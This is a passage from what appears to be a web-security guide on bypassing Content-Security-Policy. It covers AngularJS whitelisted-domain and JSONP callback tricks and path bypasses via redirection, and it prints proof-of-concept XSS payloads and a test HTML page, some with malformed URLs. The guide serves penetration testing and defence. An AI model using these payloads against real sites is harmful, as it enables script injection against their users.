 **Find other Angular bypasses in** [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### AngularJS and whitelisted domain

```
Content-Security-Policy: script-src 'self' ajax.googleapis.com; object-src 'none' ;report-uri /Report-parsing-url;
```

A CSP policy that whitelists domains for script loading in an Angular JS application can be bypassed through the invocation of callback functions and certain vulnerable classes. Further information on this technique can be found in a detailed guide available on this [git repository](https://github.com/cure53/XSSChallengeWiki/wiki/H5SC-Minichallenge-3:-%22Sh\*t,-it's-CSP!%22).

Working payloads:

```html
<script src=//ajax.googleapis.com/ajax/services/feed/find?v=1.0%26callback=alert%26context=1337></script>
ng-app"ng-csp ng-click=$event.view.alert(1337)><script src=//ajax.googleapis.com/ajax/libs/angularjs/1.0.8/angular.js></script>

<!-- no longer working -->
<script src="https://www.googleapis.com/customsearch/v1?callback=alert(1)">
```

Other JSONP arbitrary execution endpoints can be found in [**here**](https://github.com/zigoo0/JSONBee/blob/master/jsonp.txt) (some of them were deleted or fixed)

### Bypass via Redirection

What happens when CSP encounters server-side redirection? If the redirection leads to a different origin that is not allowed, it will still fail.

However, according to the description in [CSP spec 4.2.2.3. Paths and Redirects](https://www.w3.org/TR/CSP2/#source-list-paths-and-redirects), if the redirection leads to a different path, it can bypass the original restrictions.

Here's an example:

```html
<!DOCTYPE html>
<html>
<head>
  <meta http-equiv="Content-Security-Policy" content="script-src http://localhost:5555 https://www.google.com/a/b/c/d">
</head>
<body>
  <div id=userContent>
    <script src="https://https://www.google.com/test"></script>
    <script src="https://https://www.google.com/a/test"></script>
    <script src="http://localhost:5555/301"></script>
  </div>
</body>
</html>
```
